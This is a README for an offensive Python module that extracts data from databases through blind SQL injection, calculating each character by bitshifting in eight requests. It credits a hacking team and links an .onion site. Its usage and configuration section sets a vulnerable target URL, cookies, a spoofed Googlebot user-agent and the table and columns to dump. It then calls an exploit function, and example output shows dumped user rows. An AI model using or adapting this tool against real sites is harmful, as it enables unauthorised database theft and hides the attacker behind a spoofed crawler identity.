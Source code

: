 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (1 = no condition)
x.options["row_condition"] = "1"

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimentional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
